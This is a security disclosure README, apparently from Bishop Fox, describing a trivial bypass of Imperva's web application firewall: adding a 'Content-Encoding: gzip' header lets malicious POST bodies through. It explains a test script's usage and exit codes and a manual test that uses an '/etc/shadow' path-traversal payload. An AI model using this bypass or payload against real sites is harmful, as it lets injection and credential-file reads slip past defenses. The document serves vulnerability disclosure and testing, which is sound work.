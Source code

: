 # Imperva Web Application Firewall (WAF) POST Request Bypass 
Imperva-protected HTTP(S) servers are vulnerable to a trivial bypass that allows malicious POST payloads, such as unobfuscated SQL injection, to evade detection. 

## To Exploit it
Add the header `Content-Encoding: gzip` to your POST requests. Leave your POST data as-is. Don't encode it! That's it; you can put literally anything for the content encoding so long as the first four characters are `gzip`. Imperva just passes it through.

You can do this in Burp by using the proxy's Match & Replace feature:

![](https://i.imgur.com/bNPA1MW.png)

Add a new header like this:

![](https://i.imgur.com/fJtQ8A1.png)

That's it; you're good to go.

# Running the Test Script
Run `imperva_gzip.py` against a URL that supports POST requests like this:

Syntax:
	`./imperva_gzip.py [[-t] | [-r]] URL`

Guess the WAF type for a given URL:
```
$ ./imperva_gzip.py -t https://www.vulnerable.com/search
Imperva Incapsula
$ ./imperva_gzip.py -t https://www.wordpress-user.com/login
WordFence
$ ./imperva_gzip.py -t https://www.cloudflare-customer.com
Cloudflare
```

Check to see if the WAF is vulnerable to the gzip bypass:
```
$ ./imperva_gzip.py https://www.vulnerable.com/search
[+] Can we make POST requests to https://www.vulnerable.com/search?
[+] Checking for Imperva WAF...
[+] Attempting gzip bypass for UNIX trigger...
[+] Vulnerable! HTTP response code: 200
[+] Attempting gzip bypass for Windows trigger...
[+] Vulnerable! HTTP response code: 200
```

If you get this error:
```
$ ./imperva_gzip.py https://www.vulnerable.com/search
[+] Can we make POST requests to https://www.vulnerable.com/search?
[!] Can't POST to https://www.vulnerable.com/search. Try -r if 30x redirects are allowed. HTTP response code: 302
```

then try passing `-r` on the command line to enable relaxed mode. Relaxed mode is off by default, which means a POST request is expected to elicit an HTTP 200 response from the server. `-r` expands the acceptable responses to HTTP 2xx, 3xx.

## Scripting
The exit codes for `imperva_gzip.py` are as follows:

```
0: Returned after getting WAF type.
1: Command-line was invalid.
2: There was an error connecting. Could be DNS error, timeout, etc.
3: No WAF was detected; malicious UNIX/Windows payloads weren't blocked.
4: A WAF was detected, but it wasn't Imperva.
5: The server responded to a test POST request with something other than HTTP 200.
128: There is an Imperva WAF, but it is not vulnerable to the gzip bypass.
129: The bypass was effective for the UNIX payload, but not the Windows one.
130: The bypass was effective for the Windows payload, but not the UNIX one.
131: The bypass was effective against both Windows and UNIX payloads.
```

## Process to Manually Test for Vulnerability
Send three POST requests:

1. Establish a baseline POST request/response with a valid but harmless POST request
2. Trigger the Imperva WAF using the same POST request, but with extra “malicious” data such as `&test=../../../../../../../etc/shadow` in the body to verify that Imperva blocks it
3. Add the header `Content-Encoding: gzip` to the same malicious request and verify that Imperva doesn't block it

## Other Encodings
According to https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Encoding, there are four valid values for the `Content-Encoding` header:

* `compress`
* `deflate`
* `gzip`
* `br`

In testing, only `gzip` appears to work as a bypass. I wonder if gzip is whitelisted for performance reasons?

## Affected Versions
I don't know. Version information isn't obvious with Imperva's WAF. What we do know is that this bug has previously been identified in a separate Imperva product called SecureSphere. The [release notes for v12.6 of SecureSphere](https://docs.imperva.com/bundle/v12.6-release-notes/page/64973.htm) contain this paragraph:

> SPHR-58185: When SecureSphere failed to decompress POST body in requests with "Content-Encoding: gzip/deflate" header, it issued no alert and let the request through.

This sounds like exactly the same bug! The issue was resolved for SecureSphere in February 2021, but we don't know when it was introduced. It's possible that the vulnerability has been there for years. Moreover, the same bug in two products from the same company implies a common codebase between WAF and SecureSphere. It's likely that there are other common security bugs in the two products. 

## Config issue or legit bug?
I did some research to see if there are any gzip configuration options in Imperva WAFs, but I couldn't find anything (as of this post). Add to that the commonality of the bug between products and my best guess is that this is a bug, not a feature or a configuration issue.

## Mitigating
Put a WAF on your WAF?

## Contact
* Author: [@carllivitt](https://twitter.com/carllivitt)
* Bishop Fox: [@bishopfox](https://twitter.com/bishopfox)
* Continuous Offensive Security: [Cosmos](https://bishopfox.com/platform)
